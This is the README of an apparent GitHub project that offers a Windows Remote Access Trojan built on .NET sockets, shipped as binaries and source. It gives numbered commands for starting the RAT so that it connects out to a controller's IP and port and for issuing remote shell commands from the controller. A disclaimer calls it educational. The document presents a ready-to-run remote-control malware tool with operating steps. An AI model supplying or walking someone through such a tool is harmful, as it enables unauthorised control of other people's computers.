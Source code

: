 [![Stories in Ready](https://badge.waffle.io/stphivos/rat-shell.png?label=ready&title=Ready)](https://waffle.io/stphivos/rat-shell)

Windows Remote Access Trojan (RAT) using .NET Sockets

Client-server binaries and source-code for controlling a remote machine behind a NAT with a command-line shell in Windows. Although the core provides support for communication with multiple RATs, the command-line interface used has limited capabilities distinguishing each one.

The RAT process executable does not hide itself from taskbar or task manager as it was developed for educational purposes only. Please do not use for any malicious purposes.

Contains the source code and the two binaries packaged using ILMerge.

Instructions:

1. Start the server in a command-line acting as the RAT (Binaries\rat.exe) -> 
rat ip=[controller-ip-address] port=[controller-port-default-is-9999]

2. Start the client in a command-line acting as the controller (Binaries\controller.exe) -> 
controller ip=[listen-ip-address] port=[listen-port-default-is-9999]

3. Issue commands from the controller.exe interface
